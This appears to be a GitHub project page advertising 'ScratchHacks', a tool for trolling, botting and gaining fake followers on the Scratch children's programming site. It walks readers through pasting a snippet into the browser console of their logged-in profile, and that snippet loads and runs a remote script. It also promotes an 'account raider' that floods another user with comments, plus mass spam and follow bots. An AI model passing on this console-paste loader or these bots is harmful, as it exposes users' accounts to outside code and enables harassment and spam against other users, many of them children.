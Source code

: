 ## Welcome to SCRATCHHACKS

ScratchHacks is a new tool for the [Scratch](https://scratch.mit.edu) website to troll, bot and get free followers!


### Activating SCRATCHHACKS on your account

ScratchHacks is easy to activate, with just 4 easy steps!

1. Check if you have a supported browser (Chrome, Firefox, Edge)
2. Go to your Scratch profile and press the F12 key on your keyboard 
3. If not already selected, click console.
4. Copy and paste the code below into the browser console.

```markdown
(function() {
    var s = document.createElement('script');
    s.type = "text/javascript";               
    s.async = true;                        
    s.src = "//scratchhacks.github.io/hacks.js"; 
    var fs = document.getElementsByTagName('script')[0];
    fs.parentNode.insertBefore(s, fs);
})();
```
Then type
```
starthacks();
```

Stuck? Watch [this video](https://guides.github.com/features/mastering-markdown/).

### Hacks availible
**Follow bot**
A follow bot basicly follows a load of people, then they follow you back resulting in free, real followers!

**Account raider**
The account raider floods an account with comments (one every 30 seconds) and is just very annoying for the person on the other end.

**Auto F4F**
Follows all your followers back!

**Super Advertisment**
This sends a comment to a load of people telling them to check out your project.



### Support or Contact

If you have a problem, add an issue in GitHub.
Scratch hacks are being developed by me in Moscow, Russia!
